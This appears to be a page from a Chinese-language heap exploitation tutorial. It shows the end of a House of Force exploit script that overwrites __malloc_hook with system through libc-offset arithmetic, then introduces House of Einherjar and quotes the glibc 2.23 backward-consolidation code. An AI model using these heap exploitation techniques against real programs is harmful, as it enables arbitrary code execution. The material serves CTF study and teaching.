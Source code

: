 ```plain
system=libc.sym['system']+libc_base
leak('malloc_hook',malloc_hook)
offset=(malloc_hook-0x20)-top_chunk_addr
leak('offset',offset)
'''
ogs = [0x45226, 0x4527a, 0xf03a4, 0xf1247]
og=ogs[1]+libc_base
leak('og',og)
'''
add(offset,'kkk')
add(0x10,p64(system))

#duan()
p.recvuntil("2:puts\n")
p.sendline('1')
p.recvuntil("size\n")
p.sendline(str(top_chunk_addr))

#duan()
itr()
```

# House Of Einherjar

## 介绍

house of einherjar 跟 house of force 差不多，最终目的都是控制 top chunk 的值  
只不过他是向后合并

## 向后合并机制与利用方法

### libc-2.23

```plain
if (!(hd & PREV_INUSE))                    /* consolidate backward */
{ 
  prevsz = p->prev_size; 
    /* 记录相邻堆块p的prev_size值 */
  p = chunk_at_offset(p, -(long)prevsz); 
    /* 堆块p的指针最后由chunk_at_offset()函数决定 */
    /* 将原本p指针位置加上s偏移后的位置作为合并堆块的新指针(向上增加) */
  sz += prevsz; 
    /* size = size + prev_size */

  if (p->fd == last_remainder(ar_ptr))     /* keep as last_remainder */
    islr = 1;
  else
    unlink(p, bck, fwd);
    /* 检查并脱链 */
}
```
